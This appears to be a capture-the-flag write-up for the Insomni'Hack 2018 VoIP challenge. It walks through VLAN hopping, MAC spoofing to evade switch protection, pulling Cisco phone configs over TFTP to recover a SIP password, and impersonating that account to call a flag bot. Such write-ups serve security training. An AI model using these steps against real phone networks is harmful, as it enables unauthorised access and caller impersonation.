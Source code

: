 ```yaml
---
title: Insomni'Hack 2018 - Voice-VoIP
redirect_from: "Writeups/2018/Insomni'hack/voice-voip/"
---
```


# {{page.title}}
Solves: 6 / Points: 307

## Challenge description
```
All the LAN ports are configured for this Cisco VOIP challenge. (this challenge does not work with the Wifi !).
The characters are based around the film of the Silence of the Lambs [1991].
The flag is like in the last scene of the film.



Hint : The voip challenge is on vlan 231 or 232

Tip : Don't use same MAC address as the Network as some protection and you would trigger turn off your LAN port
```

## Challenge resolution
The first step is to set up the vlan on our network intertace:
``$ ip link add link enp9s0 name enp9s0.231 type vlan id 231``

Due to security features enabled on the switch, it is mandatory to change the MAC address of the interface before running the DHCP request:
```
$ macchanger -r enp9s0.231
$ dhclient -v enp9s0.231
```
The option 128 is present in the DHCP Offer. This option is used to specify TFTP servers available on the network. The TFTP server address is 198.51.100.20, but as there is no file listing on TFTP servers, we need to know the name of the files to download. Common practice is to name the config file with the MAC address of the phone. 
By running nmap on the VOIP subnet, we can identify a Cisco phone at 192.168.231.5 with the following MAC address: 00:1A:2F:CB:72:2A. According to Cisco documentation, the configuration file is named SIP<MAC_ADDRESS>.cnf, let's try to download it:
```
$ atftp -g -r SIP001A2FCB722A.cnf 198.51.100.20
$ cat SIP001A2FCB722A.cnf
proxy1_address: "198.51.100.118"

line1_name: "2184"
line1_shortname: "Hannibal Lecter"
line1_displayname: "Hannibal Lecter"
line1_authname: "2184"
line1_password: "kfm8mmd*8"
[...]
```
We now have:
* The IP address of the SIP server: 198.51.100.118
* Hannibal Lecter account:
    * Login: 2184
    * Password: kfm8mmd*8

But we still need to know Clarice's phone number. After an unsuccessful bruteforce to discover new user's phone number using _svwar_ from _Sipvicious_ (who is 2866?), we finally downloaded the default config file from the TFTP server:
```
$ atftp -g -r SIPDefault.cnf 198.51.100.20
$ cat SIPDefault.cnf
[...]
#services_url: "http://example.domain.tld/services/menu.xml"
#directory_url: "http://example.domain.tld/services/directory.php"
directory_url: "http://198.51.100.20/directory.xml"
[...]
``` 
Wut! A directory file is present on the TFTP server and it contains the phone number of Clarice:  6834. 
From now, we just need to set up a SIP client, impersonate Hannibal by using previously gathered credentials and call Clarice at 6834@198.51.100.118. A bot answers our call and gives us the flag.



